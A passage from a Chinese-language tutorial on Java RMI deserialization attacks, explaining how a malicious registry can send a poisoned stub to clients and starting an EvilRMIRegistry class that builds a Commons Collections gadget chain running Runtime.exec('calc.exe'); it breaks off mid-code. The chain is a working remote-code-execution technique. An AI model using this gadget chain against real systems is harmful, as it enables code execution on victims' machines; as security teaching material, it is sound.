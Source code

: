 ![image-20250307123658676](https://gitee.com/ling-x5/img/raw/master/image-20250307123658676.png)

### 服务端攻击客户端

前面说到了

1. 注册中心会把客户端代理 Stub 序列化传给客户端
2. 服务端执行完远程服务后，会把得到的结果序列化返回客户端。

客户端都会进行反序列化

#### 1、返回恶意的 stub

先来看第一种，我们把恶意的 Stub 发给客户端

这种比较简单，因为客户端从注册中心拿远程服务的 Stub 的时候要去查询 ObjectTable 全局对象表，也就是 sun.rmi.registry.RegistryImpl#bindings 属性，我们可以通过反射或者直接绑定把恶意的远程对象 put 进 bindings 中

恶意的服务端

```java
package com.lingx5.RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class EvilRMIRegistry {

    public static void main(String[] args) throws Exception {
        // 1. 构造命令执行链
        Transformer[] transforms = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                                   new Class[]{String.class, Class[].class},
                                   new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke",
                                   new Class[]{Object.class, Object[].class},
                                   new Object[]{null, null}),
            new InvokerTransformer("exec",
                                   new Class[]{String.class},
                                   new Object[]{"calc.exe"}) // 弹出计算器
        };
        ChainedTransformer chain = new ChainedTransformer(transforms);

        // 2. 创建 LazyMap 并设置触发键
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "lingx5");
        Map<Object, Object> map = new HashMap<>();
        map.put(tiedMapEntry, "lingx5");

        // 3. 反射修改 LazyMap 的 factory 为恶意链
```
